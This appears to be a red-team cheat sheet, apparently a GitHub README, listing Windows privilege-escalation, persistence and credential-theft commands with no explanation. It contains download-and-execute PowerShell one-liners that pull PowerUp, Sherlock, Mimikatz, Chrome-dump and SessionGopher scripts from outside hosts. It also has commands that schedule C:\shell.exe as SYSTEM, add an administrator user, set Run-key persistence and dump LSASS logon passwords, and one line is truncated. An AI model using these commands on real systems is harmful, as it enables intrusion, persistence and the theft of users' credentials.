 # PowerUp
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
`

# SharpUp
`
https://github.com/GhostPack/SharpUp
`

# Sherlock
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
Find-AllVulns
`

# Watson
`
https://github.com/rasta-mouse/Watson
`

# Create new task
`
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"
schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"
`

# Add User
`
net user testuser P@ssw0rd /add
net localgroup administrators testuser /add
`

# Create Service
`
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"
`

# Registry Keys
`
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
`

# StartUp Folder (Run(shell:startup))
`
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
`

# Memory Dump
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/hassan0x/test/master/mim.ps1')
Invoke-Mimikatz -Command 'privilege::debug'
Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
`
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Screen1.png?raw=true)

# Windows Credentials Manager
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')
Invoke-WCMDump
`

# Web Credentials Manager
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')
Get-WebCredentials
`

# Chrome Passwords
`
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe
`

# Chrome History
`
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')
Get-ChromeDump > chromepwds.txt
`

# Other Saved Credentials
`
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')
Invoke-SessionGopher -Thorough
`
